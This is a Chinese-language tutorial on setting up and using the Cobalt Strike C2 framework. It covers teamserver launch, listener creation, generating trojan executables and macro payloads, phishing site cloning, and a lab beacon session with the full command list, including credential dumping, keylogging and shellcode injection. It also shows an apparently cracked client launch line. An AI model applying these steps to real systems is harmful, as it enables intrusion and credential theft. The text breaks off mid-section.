# 1.CS简介

## 1.什么是cs

Cobalt Strike 是一款基于java语言开发的渗透测试神器，常被业界人称为CS神器。它被广泛用于模拟高级持久性威胁（Advanced Persistent Threat，APT）和进行内网渗透。自3.0以后已经不在使用Metasploit框架而作为一个独立的平台使用，分为客户端与服务端 (CS架构的)，服务端是一个，客户端可以有多个，非常适合团队协同作战，多个攻击者可以同时连接到一个团队服务器上，共享攻击资源与目标信息和sessions，可模拟APT做模拟对抗，进行内网渗透。
Cobalt Strike集成了端口转发、服务扫描，自动化溢出，多模式端口监听，win exe木马生成，win dll木马生成，java木马生成，office宏病毒生成，木马捆绑；钓鱼攻击包括：站点克隆，目标信息获取，java执行，浏览器自动攻击等等

`官方使用文档：https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm#_Toc65482705`

## 2.为什么有cs

非常适合团队协同作战 , 简称多人运动 , 插件也比较丰富 , 也是目前主流的 c2 ( command control )工具.

# 2.目录结构

采用cs4.5进行学习,一般Cobalt Strike目录结构如下：



简单介绍下常用的目录和文件：`

```
logs                          日志记录与目标主机的相关信息
resources                     资源文件的。目录
Scripts                       CS脚本的目录
.cobaltstrike.beacon_keys     CS Beacon的密钥信息的文件
agscript                      拓展应用的脚本.用于自动化和定制化渗透测试过程
c2lint                        用于检查 profile 文件
cobaltstrike,cobaltstrike.jar 客户端程序(java跨平台)
cobaltstrike.bat windows      平台快速启动客户端的bat文件
cobaltstrike.store            Cobalt Strike的ssl证书文件
CSAgent.jar                   用于代理通信的Java可执行文件
icon.jpg                      图标
peclone                       克隆和操作PE文件的工具或脚本
start.sh                      用于在Unix/Linux系统上启动Cobalt Strike的Shell脚本
teamserver                    启动服务端的sh脚本
```

# 3.安装和运行

## 3.1服务端

团队服务器最好运行在 Linux平台上，服务端的关键文件是teamserver和cobaltstrike.jar，将这两个文件放在同一目录下运行 , teamserver要有可以运行的权限.

```
chmod +x teamserver
```

> ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]
> 
> - <host> 必需参数 团队服务器IP
> - <password> 必需参数 连接服务器的密码
> - [/path/to/c2.profile] 可选参数 指定C2通信配置文件，体现其强大的扩展性
> - [YYYY-MM-DD] 可选参数 所有payload的终止时间
> 
> 一般启动Team Server
> 
> ./teamserver 192.168.6.73 123456 # 设置强密码，否则容易被爆破，参考附录

PS：团队服务器默认连接端口为50050，如果你想修改端口只需修改teamserver文件 , 最好修改默认端口



## 3.2客户端

Linux：

```
start.sh
```

Windows：

```
cobaltstrike.bat ,win平台的启动脚本(暗指破解版)
java -Xms1336M -Xmx1336M -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -javaagent:CSAgent.jar=f38eb3d1a335b252b58bc2acde81b542 -Duser.language=en -jar cobaltstrike.jar
java -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar     cs4.0,非破解版
```





输入服务端IP，端口默认50050，用户名任意 ( 但是不能重复 )，密码为之前服务端设置的密码，点击connect。第一次连接会出现hash校验，这里的hash等于前面的启动teamserver时的hash，直接点击 "是" 即可连接到团队服务器上.



# 4.菜单栏详情

## 4.1Cobalt Strike



```
New Connection    # 新建连接，支持连接多个服务器端
Preferences       # 设置Cobal Strike界面、控制台、以及输出报告样式、TeamServer连接记录
Visualization     # 主要展示输出结果的视图
VPN Interfaces    # 设置VPN接口
Listenrs          # 创建监听器
Script Manager    # 脚本管理，可以通过AggressorScripts脚本来加强自身，能够扩展菜单栏，
Beacon命令行，提权脚本等
```

## 4.2View(视图)



```
Applications    # 显示受害主机的应用信息
Credentials     # 显示所有以获取的受害主机的凭证，如hashdump、Mimikatz
Downloads       # 查看已下载文件
Event Log       # 主机上线记录以及团队协作聊天记录
Keystrokes      # 查看键盘记录结果
Proxy Pivots    # 查看代理模块
Screenshots     # 查看所有屏幕截图
Script Console  # 加载第三方脚本以增强功能 
Targets         # 显示所有受害主机
Web Log         # 所有Web服务的日志
```

## 4.3Attacks(攻击)

### 1.Packages(生成后门)



```
HTML Application                 # 生成(executable/VBA/powershell)这三种原理实现的恶意HTA木马文件
MS Office Macro                  # 生成office宏病毒文件
Payload Generator                # 生成各种语言版本的payload
Windows Executable               # 生成可执行exe木马
Windows Executable(Stageless)    # 生成无状态的可执行exe木马
```

### 2.Web Drive-by(钓鱼攻击)


```
Manage # 对开启的web服务进行管理
Clone Site # 克隆网站，可以记录受害者提交的数据
Host File # 提供文件下载，可以选择Mime类型
Scripted Web Delivery # 为payload提供web服务以便下载和执行，类似于Metasploit的web_delivery 
Signed Applet Attack # 使用java自签名的程序进行钓鱼攻击(该方法已过时)
Smart Applet Attack # 自动检测java版本并进行攻击，针对Java 1.6.0_45以下以及Java 1.7.0_21以下版本(该方法已过时)
System Profiler # 用来获取系统信息，如系统版本，Flash版本，浏览器版本等
```

## 4.4Reporting(报告)

```
Activity Report # 活动报告
Hosts Report # 主机报告
Indicators of Compromise # IOC报告：包括C2配置文件的流量分析、域名、IP和上传文件的MD5 
hashes
Sessions Report # 会话报告
Social Engineering Report # 社会工程报告：包括鱼叉钓鱼邮件及点击记录
Tactics, Techniques, and Procedures # 战术技术及相关程序报告：包括行动对应的每种战术的检测策略和缓解策略
Reset Data # 重置数据
Export Data # 导出数据，导出.tsv文件格式
```

# 5.工具栏


```
1.新建连接
2.断开当前连接
3.监听器
4.改变视图为Pivot Graph(视图列表)
5.改变视图为Session Table(会话列表)
6.改变视图为Target Table(目标列表)
7.显示所有以获取的受害主机的凭证
8.查看已下载文件
9.查看键盘记录结果
10.查看屏幕截图
11.生成无状态的可执行exe木马
12.使用java自签名的程序进行钓鱼攻击
13.生成office宏病毒文件
14.为payload提供web服务以便下载和执行15.提供文件下载，可以选择Mime类型
16.管理Cobalt Strike上运行的web服务
17.帮助
18.关于
```

# 6.基本流程

## 6.1创建监听器

- 什么是监听器

顾名思义，监听器就是等待被入侵系统连接自己的一个服务。

- 监听器的作用

主要是为了接受payload回传的各类数据，1比如payload在目标机器执行之后，就会会连到监听器，然后下载执行真正的shellcode代码。

一旦监听器建立起来，团队成员只需要知道这个监听器的名称即可，不用关心监听器背后的基础环境，接下来将深入了解如何准确配置监听器。一个监听器有用户定义的名称，payload类型和几个特定于payload的选型组成，监听器的名字一般由以下结构组成：

```
Operating System/Payload/Stager
如：windows/beacon_http/reverse_http
```

点击Cobalt Strike -> Listeners->Add，其中内置了8个Listener



其中包含了**dns，http，https，smb，tcp**五种协议；**External C2**，使用外部的命令与控制(C2)工具或框架，而不是使用	CS 默认的内置监听器，可以配合其他c2作为后端；**Foreign HTTP**，允许Beacon使用外部的HTTP服务器进行C2通信，而不是使用CS内置的Beacon监听器。



Name任意，选择所需的payload，Host为本机IP，port为没有被占用的任意端口 , payload常用的是reverse_http , 点击save即创建成功。

## 6.2生成木马





## 6.3运行木马上线





选中受害机右击，选择beacon，即可进行交互，由于受害机默认60秒进行一次回传，为了实验效果我们这里把时间设置成1，但实际中频率不宜过快，容易被发现

```
sleep 1
```



执行系统命令

```
shell whoami
```



通信图



# 7.Beacon介绍

> 在计算机网络安全领域，“beacon”通常指的是一种用于持续监控、信息收集或通信的技术，特别是在恶意软件（如高级持续性威胁，APT）中广泛使用。
> 
> 概念: 恶意软件使用 beacon 技术来与攻击者的命令与控制（C2）服务器进行通信。通常，恶意软件会定期发送信号（beacon），以向C2服务器报告受感染设备的状态，并等待进一步的指令。
> 
> 工作原理: 一旦计算机被感染，恶意软件会周期性地向攻击者的服务器发送一个网络请求，这个请求通常包含受感染主机的标识信息（如IP地址、主机名等）。攻击者可以通过这些信息决定下一步行动，比如发送新的恶意指令或下载额外的恶意负载。

## Beacon是什么

- Beacon是CS的Payload  ( 攻击载荷 )
- Beacon有两种通信模式。一种是异步通信模式，这种模式通信效率缓慢，Beacon回连团队服务器、下载任务、然后休眠；另一种是交互式通信模式，这种模式的通信是实时发生的。
- 通过HTTP、HTTPS和DNS出口网络
- 使用SMB协议的时候是点对点通信
- Beacon有很多的后渗透攻击模块和远程管理工具

## Beacon的类型

- HTTP 和 HTTPS Beacon

HTTP和HTTPS Beacon也可以叫做Web Beacon。默认设置情况下，HTTP 和 HTTPS Beacon 通过 HTTP GET 请求来下载任务。这些 Beacon 通过 HTTP POST 请求传回数据。

当受害机上线以后，右击选择Beacon ，就可以打开Beacon Console,在beacon处输入help可以看到命令说明

```
beacon> help

Beacon Commands
===============

    Command                   Description
    -------                   -----------
    argue                     Spoof arguments for matching processes  进程参数欺骗  ( net user add mhx 123456)
    blockdlls                 Block non-Microsoft DLLs in child processes   在子进程中阻止非Microsoft的DLLs文件
    browserpivot              Setup a browser pivot session   注入受害者浏览器进程
    cancel                    Cancel a download that's in-progress  取消正在进行的下载
    cd                        Change directory   切换目录
    checkin                   Call home and post data   强制让被控端回连一次
    clear                     Clear beacon queue   清除beacon内部的任务队列
    connect                   Connect to a Beacon peer over TCP   通过TCP连接到Beacon  # 正向木马
    covertvpn                 Deploy Covert VPN client   部署Covert VPN客户端
    cp                        Copy a file  复制文件
    dcsync                    Extract a password hash from a DC   从DC中提取密码哈希
    desktop                   View and interact with target's desktop  远程VNC
    dllinject                 Inject a Reflective DLL into a process   反射DLL注入进程
    dllload                   Load DLL into a process with LoadLibrary()   使用LoadLibrary将DLL加载到进程中
    download                  Download a file   下载文件
    downloads                 Lists file downloads in progress   列出正在进行的文件下载
    drives                    List drives on target   列出目标盘符 
    elevate                   Spawn a session in an elevated context   尝试提权
    execute                   Execute a program on target (no output)   在目标上执行程序(无输出)
    execute-assembly          Execute a local .NET program in-memory on target    在目标机器内存中执行本地.NET程序(path: 客户端)
    exit                      Terminate the beacon session   退出beacon
    getprivs                  Enable system privileges on current token   对当前令牌启用系统权限
    getsystem                 Attempt to get SYSTEM     尝试获取SYSTEM权限
    getuid                    Get User ID    获取用户ID
    hashdump                  Dump password hashes    转储密码哈希值
    help                      Help menu   帮助
    inject                    Spawn a session in a specific process   在特定进程中生成会话
    jobkill                   Kill a long-running post-exploitation task
    jobs                      List long-running post-exploitation tasks
    jump                      Spawn a session on a remote host
    kerberos_ccache_use       Apply kerberos ticket from cache to this session
    kerberos_ticket_purge     Purge kerberos tickets from this session
    kerberos_ticket_use       Apply kerberos ticket to this session
    keylogger                 Inject a keystroke logger into a process
    kill                      Kill a process
    link                      Connect to a Beacon peer over a named pipe
    logonpasswords            Dump credentials and hashes with mimikatz
    ls                        List files
    make_token                Create a token to pass credentials
    mimikatz                  Runs a mimikatz command
    mkdir                     Make a directory
    mode dns                  Use DNS A as data channel (DNS beacon only)
    mode dns-txt              Use DNS TXT as data channel (DNS beacon only)
    mode dns6                 Use DNS AAAA as data channel (DNS beacon only)
    mv                        Move a file
    net                       Network and host enumeration tool
    note                      Assign a note to this Beacon       
    portscan                  Scan a network for open services
    powerpick                 Execute a command via Unmanaged PowerShell
    powershell                Execute a command via powershell.exe
    powershell-import         Import a powershell script
    ppid                      Set parent PID for spawned post-ex jobs
    ps                        Show process list
    psinject                  Execute PowerShell command in specific process
    pth                       Pass-the-hash using Mimikatz
    pwd                       Print current directory
    reg                       Query the registry
    remote-exec               Run a command on a remote host
    rev2self                  Revert to original token
    rm                        Remove a file or folder
    rportfwd                  Setup a reverse port forward
    run                       Execute a program on target (returns output)
    runas                     Execute a program as another user
    runasadmin                Execute a program in an elevated context
    runu                      Execute a program under another PID
    screenshot                Take a screenshot
    setenv                    Set an environment variable
    shell                     Execute a command via cmd.exe
    shinject                  Inject shellcode into a process
    shspawn                   Spawn process and inject shellcode into it
    sleep                     Set beacon sleep time
    socks                     Start SOCKS4a server to relay traffic
    socks stop                Stop SOCKS4a server
    spawn                     Spawn a session 
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another process
    ssh                       Use SSH to spawn an SSH session on a host
    ssh-key                   Use SSH to spawn an SSH session on a host
    steal_token               Steal access token from a process
    timestomp                 Apply timestamps from one file to another
    unlink                    Disconnect from parent Beacon
    upload                    Upload a file
```

可用help+命令的方式查看具体命令参数说明

```
beacon> help argue
Use: argue [command] [fake arguments]
     argue [command]
     argue

Spoof [fake arguments] for [command] processes launched by Beacon.
This option does not affect runu/spawnu, runas/spawnas, or post-ex jobs.

Use argue [command] to disable this feature for the specified command.

Use argue by itself to list programs with defined spoofed arguments.
```

退出会话:选中会话 , 右键退出回话 , 然后删除回话 , 如果再次上线了, 再删除一次

# 8.CS上线类型

CS支持多种花样上线模式，在这里逐个介绍 ：

## 8.1exe上线(有阶段)

攻击 -> 生成后门 -> windows可执行程序 , 选择监听器和对应的操作系统位数



选择保存路径



然后把生成的木马放到目标靶机中 , 双击运行 , 成功上线

## 8.2exe上线(无阶段)



运行上线



运行上线



## 8.3Staged和Stageless的区别

### 生成的exe体积不同





### 上线的经过的流程不同：

#### Staged（有阶段）:

- 定义： 在有阶段的执行方式中，Cobalt Strike Payload 分为两个主要阶段，即 **Stager** 和 **Stage**。

- Stager（初始执行载荷）：下载一个东西

定义： Stager是`Stage 1`，是一个**较小的、轻量级**的初始执行载荷。
作用： 主要任务是与Cobalt Strike团队服务器建立初始连接，并从服务器下载更大的Payload，也就是`Stage 2`

- Stage （更大、完整的执行载荷）：

定义： Stage是Stage 2，是一个**更大、更完整**的执行载荷。
作用： 一旦Stager与Cobalt Strike团队服务器建立连接，**Stager会请求下载Stage**。Stage是整个Payload的主体，包含了更多的功能和模块。一旦下载，Stage在目标系统上执行，并与Cobalt Strike服务器保持连接，执行渗透测试人员指定的各种命令和操作。

#### Stageless（无阶段）:

- 定义： 在无阶段的执行方式中，整个 Payload** 在一次性的过程中直接执行**，而不需要分为两个阶段。
- *<u>特点： 由于无阶段的执行方式减少了与团队服务器的交互，因此可能更难被检测。然而，这也限制了 Payload 的大小，因为整个 Payload 需要在一次连接中传输。</u>*

Staged 上线有web日志：

